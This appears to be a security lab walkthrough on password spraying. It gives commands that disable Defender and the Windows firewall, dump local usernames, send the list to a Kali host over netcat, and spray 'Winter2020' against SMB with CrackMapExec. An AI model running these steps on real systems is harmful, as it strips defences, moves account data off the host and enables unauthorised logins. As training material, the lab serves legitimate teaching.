


# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

Now, let's open a command Prompt:

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.

C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

Next we are going to password spray against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and run the following command.

`nc -lv -p 2222 > users`

Now switch to command prompt on windows machine. 

Disable firewall.
C:\Tools> `netsh advfirewall set allprofiles state off`

And transfer the file to kali by running the next command 

C:\Tools> `nc <IP> 2222 < ..\temp\UserList.txt` (Cancel out netcat (Ctrl-C) after 3 seconds.).

We will use the tool CrackMapExec for password spray attack over smb. The tool supports other protocols like ssh, winrm, ldap etc. 

The command looks like this - `cme smb <IP> -u users -p Winter2020 --shares`.

We can see that the user Cristopher was succesfully authenticated to our target machine.

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

